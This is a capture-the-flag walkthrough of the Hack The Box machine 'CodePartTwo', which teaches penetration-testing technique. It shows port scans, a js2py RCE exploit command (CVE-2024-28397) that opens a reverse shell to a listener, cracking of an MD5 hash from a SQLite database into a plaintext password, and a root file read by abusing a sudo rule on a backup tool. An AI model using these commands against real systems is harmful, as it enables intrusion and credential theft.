


# CodePartTwo

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-badge wu-diff wu-diff--easy">Easy</span>
<span class="wu-tags">
<span class="wu-tag">js2py</span>
<span class="wu-tag">SQLite</span>
<span class="wu-tag">Backup abuse</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    The downloadable source was more useful than guessing JavaScript reverse shells. It identified the vulnerable library, while the live instance's database supplied the credentials needed to reach a dangerous backup sudo rule.

## Attack path

1. Identify js2py 0.74 in the downloadable application and exploit the code endpoint.
2. Read users.db, crack Marco's MD5 hash, and switch to SSH.
3. Supply a modified npbackup configuration to back up and read a root-owned file.

[HTB machine](https://app.hackthebox.com/machines/692) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/692) (checked November 17, 2026).

## Enumeration

```fish
set -x IP 10.10.11.82

# TCP Fast Scan
sudo nmap -p- --min-rate=1000 -T4 -n --open $IP \
| grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//' \
| read ports; echo $ports

# Full TCP Scan with Default Scripts & Versions
sudo nmap -p$ports -sC -sV -oA tcp_full $IP

# Top 200 UDP Scan
sudo nmap -sU --top-ports 200 -T4 --min-rate=300 -oA udp_top200 $IP
```

---
### Nmap Results

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:47:b4:0c:69:67:93:3a:f9:b4:5d:b3:2f:bc:9e:23 (RSA)
|   256 7d:44:3f:f1:b1:e2:bb:3d:91:d5:da:58:0f:51:e5:ad (ECDSA)
|_  256 f1:6b:1d:36:18:06:7a:05:3f:07:57:e1:ef:86:b4:85 (ED25519)
8000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Welcome to CodePartTwo
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
## Service Enumeration

### Port 8000

- Notes:
	- You must register an account to access `/dashboard` which functions properly
	- `/run_code` lets you run JS, but not able to pop a shell directly with revshells JS payloads

---
## Foothold

Navigate to the web portal at http://10.10.11.82:8000/

Notice that we have the option to login, register, or download the app source code as the homepage mentions this project is open source.

Download the source code, then look at the `requirements.txt` file. Notice `js2py==0.74` 

> Note: Wappalyzer was unable to find this library

Google will show this library has an RCE vulnerability, CVE-2024-28397, which had a handful of payloads but found the one below to work best.

[Reference](https://github.com/naclapor/CVE-2024-28397)

Download the POC from GitHub, then use the following to obtain a shell while having a listener open on the corresponding port:

```bash
python3 exploit.py --target http://10.10.11.82:8000/run_code --lhost 10.10.14.21 --lport 9001 
```

> The recorded exploit request reached `/run_code` without a dashboard login. 

---
## Lateral Movement 

<figure class="wu-evidence" markdown>

<figcaption>The reverse shell runs as app in the application directory.</figcaption>
</figure>

The shell will land you on the user `app` on the target and we can see that the same files appear in the `/home/app` directory as we found in the source code we downloaded before.

Navigate to `/home/app/instance` to find `users.db` .. we can access the db file by using the following command:

```bash
sqlite3 users.db
```

Then, explore the contents of the db to reveal the hash for user `marco`
```sql
sqlite> .tables
code_snippet  user        
sqlite> select * from user;
select * from user;
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
```

Put the hash for marco into a text file, `marco.txt`, then use John to crack the password:
```bash
john -w=/usr/share/wordlists/rockyou.txt marco.txt --format=raw-md5
```

<figure class="wu-evidence" markdown>

<figcaption>John recovers Marco&#x27;s password from the SQLite hash.</figcaption>
</figure>

> Alternatively, use hashcat: 
> `hashcat -m 0 649c9d65a206a75f5abe509fe128bce5 /usr/share/wordlists/rockyou.txt`

`marco:sweetangelbabylove`

Now, SSH onto the target with our new user.

```bash
ssh marco@10.10.11.82
Password: sweetangelbabylove
```

---
## Privilege Escalation

### Linux

Use `sudo -l` to reveal that `marco` can use the following:

```text
(ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

We can see that at `/home/marco` has the file `npbackup.conf` .. inspecting this file, we can see that the `paths:` variable is set to the path `/home/app/app` 

Make a copy of the backup

```bash
cp npbackup.conf exp.conf
```

Modify the path to `/root` using nano

Update npbackup

```bash
sudo npbackup-cli -c exp.conf -b -f
```

Dump `/root/root.txt`

```bash
sudo npbackup-cli -c exp.conf --dump /root/root.txt
```

## Lessons learned

Downloading the source identified the library, but the live database supplied the useful credentials. A backup program allowed to choose its own configuration can turn root-readable data into an attacker-readable backup.
